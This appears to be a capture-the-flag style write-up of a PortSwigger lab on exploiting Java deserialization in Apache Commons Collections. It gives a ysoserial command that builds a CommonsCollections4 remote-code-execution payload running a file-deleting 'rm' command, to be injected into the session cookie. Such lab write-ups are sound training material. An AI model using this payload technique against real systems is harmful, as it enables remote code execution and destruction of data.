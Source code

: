 # [Lab: Exploiting Java deserialization with Apache Commons](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-exploiting-java-deserialization-with-apache-commons)

## Lab

This lab uses a serialization-based session mechanism and loads the Apache Commons Collections library. Although you don't have source code access, you can still exploit this lab using pre-built gadget chains.

To solve the lab, use a third-party tool to generate a malicious serialized object containing a remote code execution payload. Then, pass this object into the website to delete the `morale.txt` file from Carlos's home directory.

You can log in to your own account using the following credentials: `wiener:peter`

## Analysis

after logging into wiener account, burpsuite detected: `parameter session appears to contain a serialized Java object`

use burp's extension `java deserialized scanner` with `ysoserial` to scan:

![scan.png](./../img/lab-5-scan.png)

even though the scanner says `NOT vulnerable`, some gadget chains still have a long response time:

- Apache CommonsCollections4
- Java 8
- Javassist/Weld

So let's try them one by one

## Solutions

```bash
java -jar ysoserial-all.jar CommonsCollections4 'rm /home/carlos/morale.txt' | base64 -w 0
```

put the result into session and send to server.

 or use burpsuite:

![attack.png](./../img/lab-5-attack.png)
